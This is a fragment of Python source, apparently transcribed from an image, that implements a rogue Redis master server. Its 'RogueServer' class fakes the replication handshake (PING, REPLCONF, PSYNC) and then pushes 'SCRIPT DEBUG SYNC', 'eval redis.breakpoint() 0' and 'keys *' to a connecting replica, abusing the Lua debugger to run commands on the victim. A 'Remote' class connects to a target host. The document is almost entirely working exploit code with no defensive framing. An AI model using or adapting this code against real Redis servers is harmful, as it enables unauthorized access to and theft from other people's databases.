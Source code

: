 class Remote:  
 def \_\_init\_\_(self, rhost, rport):  
 self.\_host = rhost  
 self.\_port = rport  
 self.\_sock = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)  
 self.\_sock.connect((self.\_host, self.\_port))  
  
 def send(self, msg):  
 dout(self.\_sock, msg)  
  
 def recv(self, cnt=65535):  
 return din(self.\_sock, cnt)  
  
 def do(self, cmd):  
 self.send(encode\_cmd(cmd))  
 buf = self.recv()  
 return buf  
  
class RogueServer:  
 def \_\_init\_\_(self, lhost, lport):  
 self.\_host = lhost  
 self.\_port = lport  
 self.\_sock = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)  
 self.\_sock.bind(('0.0.0.0', self.\_port))  
 self.\_sock.listen(10)  
 self.i = 0  
  
 def close(self):  
 self.\_sock.close()  
  
 def handle(self, data):  
 cmd\_arr = decode\_cmd(data)  
 resp = ""  
 phase = 0  
 \# print(data)  
 if cmd\_arr\[0\].startswith("PING"):  
 resp = "+PONG" + CLRF  
 phase = 1  
 elif 'ACK' in data:  
 if self.i % 3 == 0:  
 payload = "SCRIPT DEBUG SYNC"  
 resp = encode\_cmd(payload)  
 elif self.i % 3 == 1:  
 payload = "eval redis.breakpoint() 0"  
 resp = encode\_cmd(payload)  
 phase = 4  
 else:  
 payload = "r keys \*"  
 resp = encode\_cmd(payload)  
 self.i += 1  
  
 elif cmd\_arr\[0\].startswith("REPLCONF"):  
 resp = "+OK" + CLRF  
 phase = 2  
 elif cmd\_arr\[0\].startswith("PSYNC") or cmd\_arr\[0\].startswith("SYNC"):  
 resp = "+CONTINUE " + "Z" \* 40 + " 0" + CLRF  
 phase = 3  
 return resp, phase  
  